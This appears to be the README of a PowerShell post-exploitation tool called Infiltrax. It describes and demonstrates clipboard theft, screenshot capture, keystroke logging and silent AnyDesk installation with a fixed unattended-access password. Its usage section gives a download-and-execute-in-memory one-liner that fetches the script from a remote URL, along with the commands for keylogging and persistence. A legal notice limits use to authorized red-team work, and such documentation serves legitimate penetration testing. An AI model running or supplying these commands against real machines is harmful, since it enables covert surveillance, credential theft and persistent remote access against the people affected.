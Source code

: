 # Infiltrax
Infiltrax is a post-exploitation reconnaissance tool for penetration testers and red teams, designed to capture screenshots, retrieve clipboard contents, log keystrokes, and install AnyDesk for persistent remote access. 

![Infiltrax](https://raw.githubusercontent.com/alexdhital/Infiltrax/main/usage.gif)

## Features

- **Screenshot Capture**: Take screenshots of the entire screen and save them as PNG files.
- **Clipboard Retrieval**: Access the current clipboard contents.
- **Keystroke Logging**: Record keystrokes for a specified duration.
- **AnyDesk Installation**: Install and configure AnyDesk with unattended access.

## Usage
1. **Execute directly into memory**
```powershell
C:\Users\Administrator\Desktop> IEX(New-Object Net.WebClient).downloadString('https://raw.githubusercontent.com/alexdhital/Infiltrax/main/Infiltrax.ps1')
```
2. **Get Clipboard contents**
```powershell
C:\Users\Administrator\Desktop> Invoke-Clipboard
```
3. **Take desktop screenshot and save into certain location**
```powershell
C:\Users\Administrator\Desktop> Invoke-Screenshot -Path "C:\Windows\Tasks\"
```
4. **Capture user keystrokes and save in a file**
```powershell
C:\Users\Administrator\Desktop> Invoke-KeyStrokeCapture -DurationInSeconds 30 -OutputPath C:\Windows\Tasks\keystrokes.txt
```
5. **Installs anydesk silently, sets up unattended access and gets remote id** (Requires Administrative Privilege)
```powershell
C:\Users\Administrator\Desktop> Invoke-AnyDeskInstall -InstallPath "C:\Users\Alex\AppData\Local\AnyDesk" -Password "Unattended123!" 
```
## Warning and Legal Notice
This tool is intended solely for use by penetration testers and red team professionals during authorized engagements during post exploitation. Do not use this tool for unauthorized access or illegal activities.
